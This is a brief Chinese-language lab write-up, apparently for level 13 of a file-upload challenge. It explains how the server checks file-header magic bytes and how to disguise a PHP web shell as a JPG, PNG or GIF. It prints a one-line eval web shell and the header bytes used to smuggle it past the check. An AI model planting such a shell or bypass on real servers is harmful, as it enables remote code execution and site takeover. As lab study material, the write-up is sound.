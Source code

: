 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过制作图片马绕过

## 1.打开第十三关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)



## 3.分析代码

##### ![](./img/3.png)

##### 源码中利用getReailFileType函数中fread函数读取文件开头两个字符，并利用unpack函数将字符转换成ascii码值，最后用intval连接取整(值为$typeCode)。

##### 然后判断$typeCode为255216(0xff,0xd8)、13780(0x89,0x50)、7173(0x47,0x49)

##### JPG:对于JPG文件保留的文件头标识就多一些了(10行左右)，可以直接在JPG文件都加php木马，但是会有如下错误。

##### PNG:89 50 4e 47 0d 0a 1a 0a(可以抓包修改hex，也可以找个真png，用编辑器打开，将文件头标识后面的内容替换成php木马就行)

##### GIF:GIF89a(直接在文件头加入，也可以抓包修改hex：47 49 46 38 39 61)

##### 这是JPG因为文件内容有干扰PHP解析的数据出现，后删除部分内容上传后成功

## 4.我们可以本地制作一个图片马绕过

![](./img/4.png)

![](./img/5.png)

